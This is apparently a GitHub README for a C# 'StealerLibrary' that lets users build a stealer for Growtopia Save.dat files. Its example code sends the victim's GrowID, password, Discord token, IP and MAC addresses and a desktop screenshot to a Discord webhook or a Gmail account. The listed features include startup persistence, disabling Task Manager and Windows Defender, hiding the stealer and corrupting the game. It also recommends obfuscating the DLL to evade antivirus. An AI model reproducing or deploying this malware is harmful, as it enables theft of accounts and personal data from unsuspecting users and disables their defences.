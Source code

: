 # StealerLibrary
Growtopia (Save.dat) Stealer Library that let you to write a stealer with 1 line of code.
#### ⭐ If you like the project, feel free to star the project ⭐

## Compiled Version: [All Releases](https://github.com/extatent/StealerLibrary/releases/)

### Compile the source code with Visual Studio and add the .DLL to the references in your project and start writting the code below.

#### Your program might be FUD, but the .DLL isn't. Use obfuscator for that.

## Example Usage : 

```csharp
using StealerLibrary;

namespace Example
{
    class Program
    {
        private static void Main()
        {
            //Discord Webhook Method
            Library.DiscordWebhookUrl = "https://discord.com/api/webhooks/837357865609199646/4wIlD35Q9QNdLGEfh9hWeoQX9eAMxCBqDQcMmIBBvAtoFTjDlJAzkMaxyc1kcxaY4TpP";
            Library.WebhookName = "StealerLibrary"; //Optional
            Library.WebhookProfilePictureUrl = ""; //Optional
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.DiscordStealer(true, true, true, true, true, true, true, true, true);
            
            //Gmail Method
            Library.Gmail = "example@gmail.com";
            Library.GmailPassword = "Example12345.";
            Library.SMTPServer = "smtp.gmail.com"; //Default
            Library.SMTPPort = 587; //Default
            
            //Last World, MAC Address, IP Address, Discord Token, User Name, Machine Name, OS Information, Country, Desktop Screenshot
            Library.GmailStealer(true, true, true, true, true, true, true, true, true);
            
            //Run On Startup, Disable Task Manager, Corrupt Growtopia, Hide Stealer, Disable Windows Defender
            Library.Functions(true, false, true, false, false);
            
            //Trace Save.dat for Discord/Gmail
            Library.TraceSaveDat(true, false);
        }
    }
}
```

## Features
### V1
- GrowID
- Password
- Last World (Customizable: True/False)
- MAC Address (Customizable: True/False)
- IP Address (Customizable: True/False)
### V2
- Discord Token (Customizable: True/False)
- User Name (Customizable: True/False)
- Machine Name (Customizable: True/False)
- OS Information (Customizable: True/False)
- Country (Customizable: True/False)
- Desktop Screenshot (Customizable: True/False)
### V3
- Gmail Method (Optional)
- Trace Save.dat (Customizable: True/False)
- Run On Startup (Customizable: True/False)
- Disable Task Manager (Customizable: True/False)
- Corrupt Growtopia (Customizable: True/False)
- Hide Stealer (Customizable: True/False)
- Disable Windows Defender (Customizable: True/False)

<img src="http://anarchy.5v.pl/example2.png" alt="png">

## StealerLibrary is licensed under the GNU General Public License v3.0. See the [LICENSE](https://github.com/extatent/StealerLibrary/blob/main/LICENSE) file for details.
